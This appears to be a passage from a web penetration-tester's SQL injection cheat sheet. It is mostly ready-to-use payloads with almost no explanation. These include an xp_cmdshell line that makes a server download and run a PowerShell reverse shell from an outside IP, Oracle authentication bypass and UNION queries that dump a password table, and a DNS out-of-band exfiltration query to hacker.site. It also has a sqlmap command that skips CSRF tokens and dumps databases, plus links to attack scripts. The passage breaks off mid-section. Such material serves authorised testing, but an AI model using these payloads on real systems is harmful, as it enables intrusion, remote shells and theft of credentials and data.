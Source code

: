 ```
-> RCE
```
' exec xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.147/InvokePowerShellTcp.ps1')" ;--
```
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

### Oracle SQL
-> Bypass Authentication
```
' or 1=1--
```
	
-> get number columns
```
' order by 3--
```
	
-> get table name
```
' union select null,table_name,null from all_tables--
```
	
-> get column name
```
' union select null,column_name,null from all_tab_columns where table_name='<table_name>'--
```
	
-> dump
```
' union select null,PASSWORD||USER_ID||USER_NAME,null from WEB_USERS--
```
	
### Scripts Example
-> Second-Order SQL Injection (query connector)  - Example (edit)  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/sqli/second-order/script.php
	
-> Time Based SQL Injection Script - Example (edit)  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/sqli/time-based/sqli.py

### Out-Of-Band SQL Injection
```
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
```
  
### SQLMAP Tamper's
-> randomcase.py  
https://raw.githubusercontent.com/sqlmapproject/sqlmap/master/tamper/randomcase.py  
-> ord2ascii.py  
https://raw.githubusercontent.com/sqlmapproject/sqlmap/master/tamper/ord2ascii.py  
-> xforwardedfor.py  
https://raw.githubusercontent.com/sqlmapproject/sqlmap/master/tamper/xforwardedfor.py  
-> second-order.py - Example (edit)  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/sqli/tampers/second-order.py  

### CSRF Token Bypass - SQLMAP
```
sqlmap --csrf-url=http://site.com/user-profile --csrf-token="<token>" -r request.txt -p'<parameters>' --random-agent -D <database> -T <table> --dump
```

### SQLite Injection
-> extracting table names, not displaying standard sqlite tables
```